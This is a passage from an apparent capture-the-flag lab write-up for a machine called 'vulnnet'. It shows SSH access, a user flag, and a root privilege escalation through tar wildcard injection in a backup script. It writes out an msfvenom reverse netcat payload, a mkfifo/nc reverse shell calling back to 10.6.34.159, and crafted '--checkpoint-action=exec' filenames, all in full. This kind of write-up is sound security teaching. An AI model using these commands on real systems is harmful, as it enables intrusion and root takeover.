 There we go, we got our passphrase, let's go into ssh now:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402132444.png)

We are now able to read `user.txt`:

```
server-management@vulnnet:~$ cat user.txt
THM{907e420d979d8e2992f3d7e16bee1e8b}
```

We can use `linpeas` to check for a way to get into root:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402132806.png)

```
server-management@vulnnet:~$ cat /var/opt/backupsrv.sh
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup.
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```

This command backs up **all files** in the directory. Since we control files in `/home/server-management/Documents`, we can inject malicious filenames that `tar` interprets as command-line arguments (e.g., `--checkpoint-action` to execute arbitrary code). Let's reproduce the following in order to get a root shell:

```
# Let's begin by generating a netcat reverse shell using msfvenom
msfvenom -p cmd/unix/reverse_netcat lhost=10.6.34.159 lport=9001 R
echo '#!/bin/bash' > shell.sh
echo "mkfifo /tmp/bqauesy; nc 10.6.34.159 9001 0</tmp/bqauesy | /bin/sh >/tmp/bqauesy 2>&1; rm /tmp/bqauesy" >> shell.sh # Replace contents with the generated by 
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
chmod +x shell.sh
nc -lvnp PORT
```
